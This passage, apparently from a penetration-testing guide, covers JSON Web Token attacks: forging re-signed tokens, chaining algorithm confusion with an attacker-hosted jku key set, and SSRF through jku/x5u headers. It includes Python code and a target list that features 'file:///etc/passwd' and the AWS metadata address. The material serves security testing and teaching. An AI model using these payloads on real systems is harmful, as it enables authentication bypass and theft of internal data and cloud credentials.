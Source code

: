        # If you have the secret key, sign the new payload
       secret = "discovered_secret"
       
       # Create new token with removed claims
       new_token = jwt.encode(payload, secret, algorithm="HS256")
       
       print(new_token)
       ```

- **Advanced attack techniques**

  - **Chained vulnerabilities**
    1. **Combining algorithm confusion and JKU attacks**:
       - Step 1: Identify JWT using RS256 algorithm
       - Step 2: Host a malicious JWK Set on attacker-controlled server
       - Step 3: Modify token's `alg` to HS256 and add `jku` pointing to attacker's JWKS
       - Step 4: Sign the token using the public key as the HMAC secret
       - Step 5: Send the modified token to the server
       - Testing insight: Chain multiple header manipulations to bypass protections
       - Exploitation insight: Multiple vulnerabilities often work together to bypass protections

    2. **SSRF through JWT header parameters**:
       - Step 1: Identify JWT using `jku` or `x5u` parameters
       - Step 2: Replace these URLs with internal network addresses or sensitive endpoints
       - Step 3: Modify payload claims as desired
       - Step 4: Sign the token with appropriate key
       - Step 5: Send the modified token and observe responses
       - Step 6: Analyze any error messages for information leakage
       - Example values: `"jku": "http://localhost:8080/admin"`, `"x5u": "file:///etc/passwd"`
       - Testing insight: Try various SSRF payloads and internal addresses
       - Script to systematically test SSRF via JWT:
       ```python
       import jwt
       import requests
       import time
       
       base_url = "https://vulnerable-app.com/api"
       
       # If you have obtained the secret
       secret = "discovered_secret"
       
       # SSRF targets to test
       ssrf_targets = [
           "http://localhost/",
           "http://localhost:8080/",
           "http://127.0.0.1/admin",
           "file:///etc/passwd",
           "http://169.254.169.254/latest/meta-data/",  # AWS metadata
           "http://10.0.0.1/"
       ]
       
